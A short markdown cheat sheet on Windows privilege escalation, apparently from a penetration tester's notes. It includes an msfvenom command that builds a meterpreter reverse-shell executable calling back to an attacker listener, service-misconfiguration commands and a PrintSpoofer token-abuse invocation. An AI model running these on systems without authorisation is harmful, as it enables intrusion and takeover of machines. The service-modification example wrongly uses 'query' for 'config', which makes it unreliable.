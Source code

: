 # Windows Privilege Escalation
Check out these repositories:

[WHP](https://github.com/51x/WHP) List of low hanging exploits to try

## Metasploit
If you are able to catch a meterpreter shell, always check post/multi/recon/local_exploit_suggester first.
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f exe -o reverse.exe
```

Also use the meterpreter command `getsystem`

## Service Exploits
See what users are available
```cmd
> net user
```

[Here](https://docs.microsoft.com/en-us/windows/win32/services/service-user-accounts) are service users. 99.9% of the time you want LocalSystem.

See what write permissions you have for all services using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```cmd
> accesschk.exe /accepteula -uwcqv <user> *
```

Query the configuration of a service
```cmd
> sc.exe qc <name>
```
Query the current status of a service
```cmd
> sc.exe query <name>
```
Modify a configuration option of a service. Here are a list of [options/values](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config)
```cmd
> sc.exe query <name> <option>= <value>
```
Start/stop services
```cmd
> net start/stop <name>
```

## Permission Misconfig
Display security configuration of the current user
```cmd
> whoami /all
```

There are a few security configurations that you are looking for. The security implications are [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

SeImpersonatePrivilege is an easy one to exploit with a few exploits at your disposal.
```cmd
> .\PrintSpoof.exe -i -c "whoami"
```
